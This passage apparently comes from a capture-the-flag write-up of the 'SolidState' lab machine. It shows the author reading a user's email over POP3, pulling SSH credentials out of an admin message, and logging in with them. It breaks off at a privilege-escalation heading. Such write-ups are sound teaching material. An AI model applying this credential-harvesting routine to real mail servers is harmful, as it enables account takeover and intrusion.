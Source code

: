 Looks like mindy might have information we'll be interested in. Let's login to `mindy` account:

```s
retr 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

Now we have some credentials: `mindy:P@55W0rd1!2@`

Let's see if these credentials work:

```s
$ ssh mindy@10.10.10.51          
mindy@10.10.10.51's password: 
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
mindy@solidstate:~$
```

## Privilege Escalation
